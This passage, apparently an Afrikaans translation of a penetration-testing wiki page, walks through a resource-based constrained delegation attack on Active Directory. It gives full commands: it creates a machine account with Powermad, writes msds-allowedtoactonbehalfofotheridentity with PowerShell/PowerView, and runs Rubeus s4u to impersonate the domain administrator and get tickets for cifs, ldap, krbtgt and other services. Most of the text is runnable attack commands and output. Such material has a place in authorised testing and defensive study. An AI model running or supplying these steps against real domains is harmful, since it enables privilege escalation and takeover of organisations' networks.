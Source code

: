 Om die _**MachineAccountQuota**_ van die domein te kontroleer, kan jy gebruik:
```bash
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Aanval

### Skep 'n Rekenaarobjek

Jy kan 'n rekenaarobjek binne die domein skep met **[powermad](https://github.com/Kevin-Robertson/Powermad):**
```bash
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Konfigurasie van Hulpbron-gebaseerde Beperkte Afvaardiging

**Gebruik activedirectory PowerShell-module**
```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Gebruik powerview**
```bash
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Voer 'n volledige S4U-aanval uit (Windows/Rubeus)

Eerstens, ons het die nuwe rekenaarobjek met die wagwoord `123456` geskep, so ons het die hash van daardie wagwoord nodig:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Dit sal die RC4 en AES hashes vir daardie rekening druk.\
Nou kan die aanval uitgevoer word:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
U kan meer kaartjies vir meer dienste genereer deur net een keer te vra met die `/altservice` parameter van Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
